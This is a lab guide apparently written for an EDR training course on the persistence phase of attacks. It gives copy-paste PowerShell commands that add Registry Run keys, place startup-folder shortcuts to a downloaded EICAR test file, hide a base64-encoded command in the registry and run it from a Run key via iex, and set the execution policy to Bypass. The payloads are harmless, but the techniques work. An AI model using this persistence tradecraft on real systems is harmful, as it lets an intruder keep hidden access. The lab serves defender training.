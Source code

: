 ```yaml
---
title: ATT&CK - Persistence Phase
description: Introduce post-compromise attack behaviors and EDR defenses
author: Chris Gerritz, Datto
created: 02/19/2023
achievements:
duration: 15
range:
- Windows
applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
external:
- attack.mitre.org
- rightofboom.infocyte.com
- www.eicar.org/download/eicar.com.txt
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code.

In Lab 5, we will demonstrate some popular places to place malware references that will cause their malware to keep coming back. Autostart locations like Registry Run Keys or files in User Startup Folders will cause that program to execute when a user logs in or the system reboots. Each autostart may have it’s own trigger for automated execution

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Persistence phase of an attack
2. Demonstate some popular persistence methods and locations
   

## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Run the following:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass
	```

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Instructions


For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 


### 1. Registry Run Key Foothold
> *The most popular persistence location is to place a reference to your malware file or command in the registry's Run Keys. All files referenced in a run key will execute upon a user logging in to the system, every time they log in.*
>
> We will demonstrate how this might look if the malware was not detected as malware by loading up our calculator. After that we'll try reference some malware using an EICAR file (fake malware that will flag on AV)

Add a path reference to the **Registry Run Keys**. 
- MITRE ATT&CK Technique: [ATT&CK T1547.001 - Persistence - Registry Run Key](https://attack.mitre.org/techniques/T1547/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Registry Run key with calc.exe
	Write-Host "Adding T1547.001 - Registry Run Key Foothold w/ simulated undetectable malware (calc)"
	REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team" /t REG_SZ /F /D "C:\Windows\System32\calc.exe -i $n"
	#REG DELETE "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team" /f
	```

### 2. Autostart Folder Shortcut
> *Another popular persistence location is to simply place a shortcut to the malware in the Windows autostart folder. All files referenced here will execute upon a user logging in to the system, every time they log in.*
>
> We will demonstrate this by creating a shortcut to an EICAR file (test malware that will flag on all AV engines) and placing it in either the system startup folder or user startup folder:
>
> C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\*.lnk
> OR
> $env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\*.lnk


Add a shortcut to malware in the **Autostart Folder**
- MITRE ATT&CK Technique: [ATT&CK T1547.009 - Persistence - Autostart Folder](https://attack.mitre.org/techniques/T1547/009)
- Copy and paste this command into the terminal:
	```PowerShell
	# Autostart Folder with EICAR file
	Write-Host "Adding T1547.009 - Malicious Shortcut Link Persistence with detectable malware (EICAR File)"
	Write-Host "Downloading IECAR file..."
	Invoke-WebRequest -Uri "https://www.eicar.org/download/eicar.com.txt" -OutFile "$env:USERPROFILE\EICAR.exe"
	$cmd = @'
		$Target = "$env:USERPROFILE\EICAR.exe"
		$ShortcutLocation = "$home\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evil_calc.lnk"
		$WScriptShell = New-Object -ComObject WScript.Shell
		$Create = $WScriptShell.CreateShortcut($ShortcutLocation)
		$Create.TargetPath = $Target
		$Create.Save()
		$ShortcutLocation = "$home\Desktop\evil_calc.lnk"
		$WScriptShell = New-Object -ComObject WScript.Shell
		$Create = $WScriptShell.CreateShortcut($ShortcutLocation)
		$Create.TargetPath = $Target
		$Create.Save()
	'@
	$cmd += "`nStart-Sleep -m $n"
	powershell.exe -nop -command $cmd
	```


### 3. Fileless Runkey Persistence
> *A more advanced form of persistence won't reference a file on disk, it will hide encoded and obfuscated code in the registry somewhere and run the command using the same persistence method.*
>
> *We will demonstrate this by encoding a simple command and placing that content in a random registry location. Then we will have the runkeys start powershell and execute that content. Any scan of the runkeys will just show a powershell command.*


Create a fileless reference in the **Registry Run Keys**
- MITRE ATT&CK Technique: [ATT&CK T1547.001 - Persistence - Registry Run Key](https://attack.mitre.org/techniques/T1547/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Autostart Folder with EICAR file
	Write-Host "Adding T1547.001 - Registry Run Key w/ Fileless Powershell Command"
	$Cmd = "Write-Host -ForegroundColor Green 'Mess with the Best, Die like the rest!'; Start-Sleep -m $n"
	$EncodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes($Cmd))
	# Add encoded Command to random registry location
	REG ADD "HKEY_CURRENT_USER\Software\Classes\RedTeamTest" /v RT /t REG_SZ /d $EncodedCommand /f
	
	# Add powershell reference to registry run key that will have it grab and execute the encoded command hidden in the registry
	$cmd = "iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp `"HKCU:\Software\Classes\RedTeamTest`").RT))); Start-Sleep -m $n"
	REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Red Team Fileless" /t REG_SZ /F /D "powershell.exe -nop -command '$cmd'"
	#Remove-Item HKCU:\Software\Classes\RedTeamTest -Force -ErrorAction Ignore
	```

- Go ahead and run the command hidden in the registry now:
	```Powershell
	# Run the command from the registry on demand:
	$cmd = "iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp `"HKCU:\Software\Classes\RedTeamTest`").RT))); Start-Sleep -m $n"
	powershell.exe -nop -command $cmd
	```
	s> If you are successful, powershell will display a message in red.
